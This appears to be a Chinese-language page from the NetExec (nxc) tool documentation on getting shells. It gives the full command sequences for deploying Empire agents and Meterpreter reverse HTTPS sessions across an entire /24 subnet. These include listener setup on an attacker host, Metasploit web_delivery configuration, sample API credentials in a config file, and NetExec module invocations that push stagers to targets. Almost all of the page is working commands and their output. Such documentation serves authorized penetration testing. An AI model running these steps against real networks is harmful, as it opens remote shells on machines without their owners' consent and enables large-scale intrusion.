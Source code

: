 # 获取 Shell 基础

## 获取 Shell 基础

我们都喜欢 shell，这就是为什么 nxc 尽可能让获取 shell 变得简单！对整个 /24 网段获取 shell 确实有一些神奇之处。

## Empire Agent

{% hint style="info" %}
使用新版 Python3 版本的 Empire [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)
{% endhint %}

我们可以使用 `empire_exec` 模块来执行 Empire Agent 的初始 stager。在后台，该模块连接到 Empire 的 RESTful API，为指定的监听器生成启动器并执行它。

* 首先设置 REST API：

```
#~ python powershell-empire --rest --user empireadmin --pass Password123!
[*] Loading modules from: /home/mpgn/Tools/Empire/lib/modules/
 * Starting Empire RESTful API on port: 1337
 * RESTful API token: l5l051eqiqe70c75dis68qjheg7b19di7n8auzml
 * Running on https://0.0.0.0:1337/ (Press CTRL+C to quit)
```

* 其次设置监听器：

```
(Empire: listeners) > set Name test
(Empire: listeners) > set Host 192.168.10.3
(Empire: listeners) > set Port 9090
(Empire: listeners) > set CertPath data/empire.pem
(Empire: listeners) > run
(Empire: listeners) > list

[*] Active listeners:

  ID    Name              Host                                 Type      Delay/Jitter   KillDate    Redirect Target
  --    ----              ----                                 -------   ------------   --------    ---------------
  1     test              http://192.168.10.3:9090                 native    5/0.0                      

(Empire: listeners) > 
```

nxc 用于认证 Empire RESTful API 的用户名和密码存储在位于 ~/.nxc/nxc.conf 的 nxc.conf 文件中：

```
[Empire]
api_host=127.0.0.1
api_port=1337
username=empireadmin
password=Password123!

[Metasploit]
rpc_host=127.0.0.1
rpc_port=55552
password=abc123
```

* 然后只需运行 `empire_exec` 模块并指定监听器名称：

```
#~ NetExec 192.168.10.0/24 -u username -p password -M empire_exec -o LISTENER=test
```

## Meterpreter

我们可以使用 `metinject` 模块通过 [Invoke-MetasploitPayload](https://github.com/jaredhaight/Invoke-MetasploitPayload) `Invoke-MetasploitPayload.ps1` 脚本启动 meterpreter。

在你的 Metasploit 实例上，运行以下命令

```
use exploit/multi/script/web_delivery
```

SRVHOST 和 SRVPORT 变量用于运行托管脚本的 web 服务器

```
set SRVHOST 10.211.55
set SRVPORT 8443
```

`target` 变量决定我们使用的脚本类型。`2` 表示 PowerShell

```
set target 2
```

选择你的 payload。在这个例子中，我们将使用一个反向 https meterpreter payload

```
set payload windows/meterpreter/reverse_https
set LHOST 10.211.55
set LPORT 443
```

运行 exploit

```
run -j
```

运行后，web_delivery 模块将启动 web 服务器来托管脚本和反向监听器以接收我们的 meterpreter 会话。

```
msf exploit(web_delivery) > run -j
[*] Exploit running as background job.

[*] Started HTTPS reverse handler on https://10.211.55.4:8443/
[*] Using URL: http://10.211.55.4:8080/eYEssEwv2D
[*] Local IP: http://10.211.55.4:8080/eYEssEwv2D
[*] Server started.
```

* 然后只需运行 `met_inject` 模块并指定 LHOST 和 LPORT 值：

```
#~ NetExec 192.168.10.0/24 -u username -p password -M met_inject -o SRVHOST=192.168.10.3 SRVPORT=8443 RAND=eYEssEwv2D SSL=http
```
